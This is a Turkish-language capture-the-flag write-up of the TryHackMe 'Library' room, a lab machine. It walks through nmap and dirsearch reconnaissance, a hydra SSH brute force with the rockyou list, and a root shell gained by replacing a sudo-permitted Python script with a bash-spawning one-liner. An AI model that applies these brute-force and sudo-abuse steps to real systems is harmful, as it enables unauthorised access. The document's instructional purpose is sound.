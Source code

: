 # TryHackMe - Library

Merhabalar, bu yazımda sizlere tryhackme.com platformunda bulunan library isimli odanın çözümünü göstereceğim. Bu makinede bulmamız gereken iki adet bayrak var. İlk önce nmap aracını kullanarak makinede açık olan portları görüntüleyeceğim.

```markdown
> nmap -sVC -n 10.10.104.11 --min-rate 1000

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-02 09:40 EDT
Nmap scan report for 10.10.104.11
Host is up (0.068s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
>22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
>80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to  Blog - Library Machine
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.85 seconds
```

Gördüğünüz üzere varsayılan 2 port açık bulunmakta. Web sitesinin ana sayfasında `meliodas` isimli bir kullanıcının gönderisini görüyoruz. Hemen alt kısmında ise yorumları ve yorum gönderebilmek için kullanılan bir form görüyoruz.

![1](https://github.com/ronark7/writeups/assets/165813191/b987b3f4-c42b-4f91-b51a-03041dd63963)

formdan gönderilen veriden herhangi bir dönüt alamıyorum, muhtemelen sadece süs olarak konduğundandır. Dirsearch ile bir dosya/dizin taraması gerçekleştirdim, sonucunda ise robots.txt dosyasını ve /images adında bir dizin olduğunu öğrendim.

```markdown
> dirsearch -u http://10.10.104.11/

...
[09:53:08] 301 -  313B  - /images  ->  http://10.10.104.11/images/
[09:53:08] 200 -  510B  - /images/
[09:53:36] 200 -   33B  - /robots.txt
...
```

/images dizini içerisinde 4 adet resim bulunuyor. robots.txt dosyasının içerisinde ise "User-agent: rockyou" şeklinde bir mesaj var. Bu mesaj bize brute force yapmamız gerektiğini söylüyor olabilir. Sonuçta rockyou, daha önceden verileri sızdırılan bir web sitesi. Günümüzde bu verileri kullanarak deneme yanılma saldırıları yapıyoruz çünkü içerisinde onlarca farklı kombinasyonda şifre bulunuyor.

```markdown
> hydra -l meliodas -P Desktop/rockyou.txt ssh://10.10.104.11 -t 60

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-02 10:04:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 60 tasks per 1 server, overall 60 tasks, 14344399 login tries (l:1/p:14344399), ~239074 tries per task
[DATA] attacking ssh://10.10.104.11:22/
>[22][ssh] host: 10.10.104.11   login: meliodas   password: *********
...
```

mesajdan yola çıkarak hydra ile brute force yaptıktan sonra `meliodas` kullanıcısının şifresine erişmiş oluyoruz. SSH üzerinden bağlandıktan sonra bulunduğumuz dizinde ilk bayrağımızı yani user.txt dosyasını alıyoruz.

```
The authenticity of host '10.10.104.11 (10.10.104.11)' can't be established.
ED25519 key fingerprint is SHA256:Ykgtf0Q1wQcyrBaGkW4BEBf3eK/QPGXnmEMgpaLxmzs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.104.11' (ED25519) to the list of known hosts.
meliodas@10.10.104.11's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ cat user.txt 
{bayrak}
meliodas@ubuntu:~$ 
meliodas@ubuntu:~$ 
```

Gördüğünüz üzere bulunduğumuz dizinde user.txt dışında bak.py adında bir dosya daha var. Bu dosyanın içeriği aşağıda ki şekildedir.

```
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

`sudo -l` komutunu kullandığımızda ise bu dosyayı herhangi bir versiyonda python ile herhangi bir kullanıcı olarak çalıştırabileceğimizi görüyoruz.

```
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

Dosyanın içerisine bir shell kodu koyarak root yetkisine erişebileceğini düşünebilirsiniz ancak bu dosyayı düzenleme yetkimiz bulunmamakta. Bunun yerine dosyayı silme yetkimiz olduğundan silip aynı isimde, yetki yükseltebileceğimiz bir dosya yapabiliriz. Öncelikle `rm bak.py` komutunu kullanarak dosyayı silelim daha sonra ise vi ile bak.py dosyasını oluşturup içerisine aşağıda ki kodu girelim.

```
import os;os.system('/bin/bash')
```

Bu kod, os kütüphanesini kullanarak bash shelle geçmemizi sağlayacak. çalıştırmadan önce de başına sudo koyduğumuzda ise root yetkisini almış olacağız.

```
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# cd /root
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt 
{bayrak}
root@ubuntu:/root#
```
